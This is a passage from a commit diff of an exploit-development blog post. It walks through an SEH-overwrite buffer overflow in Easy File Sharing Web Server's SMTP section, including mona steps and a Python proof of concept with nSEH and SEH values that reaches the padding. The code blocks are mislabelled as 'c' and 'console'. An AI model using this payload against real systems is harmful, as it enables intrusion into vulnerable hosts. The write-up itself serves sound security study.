

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2020-03-16-Exploiting-Locally-the-SMTP-section-in-Easy-File-Sharing-Web-Server.md, in a window 1280 px wide and 1400 px high, scrolled down 4460 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-03-16-Exploiting-Locally-the-SMTP-section-in-Easy-File-Sharing-Web-Server.md

````diff
--- a/_posts/posts/2020-03-16-Exploiting-Locally-the-SMTP-section-in-Easy-File-Sharing-Web-Server.md
+++ b/_posts/posts/2020-03-16-Exploiting-Locally-the-SMTP-section-in-Easy-File-Sharing-Web-Server.md
@@ -66,7 +66,7 @@ root@kali:~#
 
 The Proof-of-Concept is updated:
 
-```python
+```c
 import struct
 
 buffer = "A" * 512 + "BBBB" + "CCCC" + "\xff" * 200
@@ -74,3 +74,37 @@ f = open ("poc.txt", "w")
 f.write(buffer)
 f.close()
 ```
+
+Once this PoC is sent, the SEH Chain is successfully overwritten:
+
+![](/assets/img/Findings0/6.png)
+
+With mona, different modules are listed:
+
+![](/assets/img/Findings0/7.png)
+
+Once again with mona, POP POP RETN sequences are listed within modules that lack proctections, in this case being the selected one "ImageLoad.dll":
+
+![](/assets/img/Findings0/8.png)
+
+The first result is copied into the PoC, along with a short jump on the next handler offset:
+
+```console
+import struct
+
+seh = struct.pack("<I", 0x1002324C)
+nseh = struct.pack("<I", 0x06710870)
+
+buffer = "A" * 512 + nseh + seh + "\xff" * 200
+f = open ("poc.txt", "w")
+f.write(buffer)
+f.close()
+```
+
+After this payload is sent, the SEH Chain is overwritten with the desired values, this will make the short jump go over 6-bytes after the SEH handler, which is the POP-POP-RETN sequence:
+
+![](/assets/img/Findings0/9.png)
+
+Upon executing F9 (Run), execution is granted for the padding bytes:
+
+![](/assets/img/Findings0/10.png)
````
